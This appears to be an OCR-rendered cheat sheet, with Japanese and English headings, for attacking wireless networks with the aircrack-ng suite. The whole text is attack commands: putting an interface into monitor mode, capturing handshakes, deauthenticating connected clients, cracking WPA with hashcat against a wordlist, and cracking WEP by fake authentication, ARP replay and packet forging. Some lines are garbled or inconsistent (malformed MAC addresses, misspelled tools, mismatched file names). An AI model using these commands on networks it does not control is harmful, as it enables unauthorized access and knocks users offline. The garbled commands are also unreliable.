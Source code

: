 # ネットワーク機器をモニタモードにする
  # インターフェースをオフにする
  Set interface down
  sudo ip link set wlan0 down
  
  # モニターモードに設定
   iwconfig wlan0 mode monitor

  # インターフェースのアップ
   ip link set wlan0 up

# airmon-ngでモニターモードにする
  airmon-ng start wlan0

# 近くのビーコンフレームをすべてリッスン
  airodump-ng wlan0 --band abg

# 5GHzチャンネルの設定
  iwconfig wlan0 channel 149

# ハンドシェイクをキャプチャ
  airodump-ng -c 149 --bssid P4:E4:E4:92:60:71 -w cap01.cap wlan0

# 接続しているクライアントの認証を解除し、ハンドシェイクを行う
  aireplay-ng -D -0 2 -a 9C:5C:8E:C9:AB:C0 -c P4:E4:E4:92:60:71 wlan0

# hccapxに変換し、hashcatで解析
  aircrack-ng -J file.cap capture.hccap
  hashcat.exe -m 2500 capture.hccapx rockyou.txt


# WPAクラック
  airmon-ng start wlan0
  airodump-ng -c (channel) –bssid (AP MAC) -w (filename) wlan0mon
  aireplay-ng -0 1 -a (AP MAC) -c (VIC CLIENT) wlan0mon {disassociation attack}
  aircrack-ng -0 -w (wordlist path) (caputure filename)

# 接続されたクライアントによるWEPクラック
  airmon-ng start wlan0 ( channel)
  airodump-ng -c (channel) –bssid (AP MAC) -w (filename) wlan0mon
  aireplay-ng -1 0 -e (ESSID) -a (AP MAC) -h (OUR MAC) wlan0mon {fake authentication}
  aireplay-ng -0 1 -a (AP MAC) -c (VIC CLIENT) wlan0mon {disassociation attack}
  aireplay-ng -3 -b (AP MAC) -h (OUR MAC) wlan0mon {ARP replay attack}

# クライアント経由でのWEPクラック
  airmon-ng start wlan0 (channel)
  airodump-ng -c (channel) –bssid (AP MAC) -w (filename) wlan0mon
  aireplay-ng -1 0 -e (ESSID) -a (AP MAC) -h (OUR MAC) wlan0mon {fake authentication}
  aireplay-ng -2 -b (AP MAC) -d FF:FF:FF:FF:FF:FF -f 1 -m 68 -n 86 wlan0mon
  aireplay-ng -2 -r (replay cap file) wlan0mon {inject using cap file}
  aircrack-ng -0 -z(PTW) -n 64(64bit) filename.cap

# ARP amplification
  airmon-ng start wlan0 ( channel)
  airodump-ng -c (channel) –bssid (AP MAC) -w (filename) wlan0mon
  aireplay-ng -1 500 -q 8 -a (AP MAC) wlan0mon
  areplay-ng -5 -b (AP MAC) -h (OUR MAC) wlan0mon
  packetforge-ng -0 -a (AP MAC) -h (OUR MAC) -k 255.255.255.255 -l 255.255.255.255 -y (FRAGMENT.xor) -w (filename.cap)
  tcpdump -n -vvv -e -s0 -r (replay_dec.#####.cap)
  packetforge-ng -0 -a (AP MAC) -h (OUR MAC) -k (destination IP) -l (source IP) -y (FRAGMENT.xor) -w (filename.cap)
  aireplay-ng -2 -r (filename.cap) wlan0mon

# Cracking WEP /w shared key AUTH
  airmon-ng start wlan0 ( channel)
  airodump-ng -c (channel) –bssid (AP MAC) -w (filename) wlan0mon
  ~this will error out~aireplay-ng -1 0 -e (ESSID) -a (AP MAC) -h (OUR MAC) wlan0mon {fake authentication}
  aireplay-ng -0 1 -a (AP MAC) -c (VIC CLIENT) wlan0mon {deauthentication attack}
  aireplay-ng -1 60 -e (ESSID) -y (sharedkeyfile) -a (AP MAC) -h (OUR MAC) wlan0mon {fake authentication /w PRGA xor file}
  aireplay-ng -3 -b (AP MAC) -h (OUR MAC) wlan0mon {ARP replay attack}
  aireplay-ng -0 1 -a (AP MAC) -c (VIC CLIENT) wlan0mon {deauthentication attack}
  aircrack-ng -0 -z(PTW) -n 64(64bit) filename.cap

